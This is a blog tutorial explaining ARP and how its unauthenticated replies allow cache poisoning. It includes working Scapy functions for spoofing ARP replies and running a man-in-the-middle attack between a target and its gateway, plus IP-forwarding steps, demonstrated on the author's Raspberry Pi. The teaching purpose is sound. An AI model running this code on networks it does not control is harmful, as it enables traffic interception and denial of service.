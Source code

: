 ```yaml
---
title: "A Look into Arp Cache Poisoning and Using It to Perform MITM Attack"
date: 2019-07-24
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - ARP cache poisoning
  - Scapy
---
```


# What is ARP?
At the lowest level, a switch connects a bunch of hosts. If a protocol P on a host S wants to send some information to another host R on the network, S needs to find out the Ethernet address of R before it can transmit the packet. There must be a mapping of the address of R in protocol Ps address space to a 48-bit Ethernet address, to get the Ethernet address of R. The Address Resolution Protocol (ARP) provides this resolution. 


## ARP Messages
In this blog post, we are mainly concerned with the following two types of ARP messages.

1.	ARP Request, and
2.	ARP Reply

The ARP packet has the following format.

![ARP Packet Format](../../assets/images/arp-spoofing/main-arp-format.png)

In IPv4 over Ethernet, the sender or receiver protocol address refers to the IP address of the sender or receiver. The hardware address refers to the 48-bit Ethernet address. To resolve a host with an IP address, say for example X.X.X.X, S broadcasts (Target hardware address is FF:FF:FF:FF:FF:FF or all 1s) out an ARP request with the sender protocol address field set to our IP address, say for example Y.Y.Y.Y, asking

```
	Who is X.X.X.X? tell Y.Y.Y.Y
```

All the hosts on the network check to see if the target IP address matches their address on receiving the ARP request. The host ‘X.X.X.X,’ on seeing that its IP address matches the one in the ARP request, sends out an ARP reply to ‘Y.Y.Y.Y’ along with its Ethernet address. Once S receives the ARP request, it adds the Ethernet address of R to a cache table and starts sending out whatever packets protocol P has to send.

The following image gives an example of an ARP request and response. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-arp.png)

# ARP Spoofing
The main issue of ARP lies in the fact that there is no authentication of the ARP reply, i.e., any host can send an ARP reply claiming to be the Target. There is no check done by ARP to verify if the host that has sent the ARP reply is whom it claims to be. 

If host A wants to send data to host B on the same network, it will first resolve the hardware address using host B’s IP address, and then sends the data. If we send an ARP reply claiming to be host B, host A will update its cache with our Ethernet address. All subsequent messages are sent to us. If instead host A wants to send data to a host X, not on the same network, host A will send it to the default gateway which will then forward the message to the appropriate router. To intercept these messages, we need to send an ARP reply claiming to be the default gateway. Once we poison the target’s cache, we can either choose to forward the packets performing a man-in-the-middle attack (MITM) or drop them performing a denial of service attack.

## Performing ARP Cache Poisoning
To poison a target's ARP cache, we need the target's MAC address. To get the MAC address, we
can send ARP request packet to the target. This can be done the following way.

```python
def get_mac(ip):
  # Create an ARP packet with the target as the destination 
  arp = Ether()/ARP(pdst=ip)
	
  # Send the ARP request and get the response
  resp = srp1(arp)

  # Return the target's MAC address
  return (resp[Ether].src)
```

Once we get the target's MAC address, we can poison its cache by continously sending spoofed ARP responses. The function *poison_arp_cache* is looped forever until the user exits. This is because
the target might try to flush it's ARP cache and send out an ARP request. To prevent it from overwriting our spoofed ARP cache entry, we must keep sending it spoofed ARP responses. 

```python
def poison_arp_cache(target_ip, target_mac_addr, spoofed_ip, spoofed_mac_addr=Ether().src):
  # Create the ARP response
  spoofed_resp = Ether()/ARP()

  # Set the destination MAC address
  spoofed_resp[Ether].dst = target_mac_addr
  spoofed_resp[ARP].hwdst = target_mac_addr

  # Set the destination IP address
  spoofed_resp[ARP].pdst = target_ip

  # Set the spoofed MAC address
  spoofed_resp[Ether].src = spoofed_mac_addr
  spoofed_resp[ARP].hwsrc = spoofed_mac_addr

  # Set the spoofed IP address
  spoofed_resp[ARP].psrc = spoofed_ip

  # is-at (response)
  spoofed_resp[ARP].op = 2

  #print(spoofed_resp[0].show())
  sendp(spoofed_resp)
```
On trying the above code fragments with the target as a Raspberry Pi 3B+ on the same network as my 
laptop, we get the following results.

### Before ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-before.png)

### After ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-after.png)

We can see that we have successfully overwritten the target's cache table with my laptop's MAC address. All subsequent messages will now be sent to my laptop. But to prevent a DOS attack, we must forward the packets to the destination. This involves poisoning the destination's ARP cache table too. If the destination is not on the same network, we must poison the default gateway's cache table. To poison the default gateway, we need its IP address and MAC address. We can get them in the following manner. 

```python
def get_default_gateway_details():
  # Send a request to any host outside our network with the TTL set to 0
  p = srp1(Ether()/IP(dst="www.google.com", ttl = 0)/ICMP()/"XXXXXXXXXXX")

  # Return the source's IP address and MAC address
  return p[IP].src, p[Ether].src
```

In the *get_default_gateway_ip* function, since the TTL is set to zero, the first host on the route which is the default gateway, responds with an ICMP error message {TTL Zero During Transit}. We then read the ICMP error message to get the default gateway's IP address, and MAC address.

To perform the MITM attack, we can use the following function.

```python
def perform_mitm(target_ip):
  # Get default gateway's network details
  default_gateway_ip, default_gateway_mac = get_default_gateway_details()

  # Get target's MAC address
  target_mac = get_mac(target_ip)

  # Keep sending spoofed ARP responses
  while True:
    # Poison target's ARP cache table
    poison_arp_cache(target_ip, target_mac, default_gateway_ip)

    # Poison default gateway's ARP cache table
    poison_arp_cache(default_gateway_ip, default_gateway_mac, target_ip)
```

#### Side Note on Enabling Packet Forwarding
To allow packets from the target or the gateway are forwarded, we must enable packet forwarding so that our system acts as a router. Whenver a packet not destined to us arrives, the os automatically forwards to the appropriate host. 

To enable this on linux, we must do the following.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

On windows, we must carry out the following steps.
```
1. Open Regedit as adminstrator,
2. Navigate to the HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\ Services\Tcpip\Parameters\IPEnableRouter setting,
3. Right click and select Modify,
4. Change 0 to 1 and exit the editor,
5. Type services.msc in the command prompt,
6. Navigate to the Routing and Remote Access service, 
7. Right click and select Properties, 
8. Change to Automatic and click on Start to start the service.
```

### MITM Results
On running the *perform_mitm* function, we now receive all communications between the gateway and the target. This can be seen in wireshark. On sending GET request to **www.resonous.com**, we can see the request in my laptop.

![ARP Packet Format](../../assets/images/arp-spoofing/curl-resonous.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get-depth.png)

Since the GET request resulted in moved result. We can curl the website over https in the following manner. 

![ARP Packet Format](../../assets/images/arp-spoofing/res-https.png)

The same can be seen in wireshark. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-https-depth.png)

That's it for this post. The complete script is available at my github [page][page]


[page]: https://github.com/venkat-abhi/arp-cache-poisoner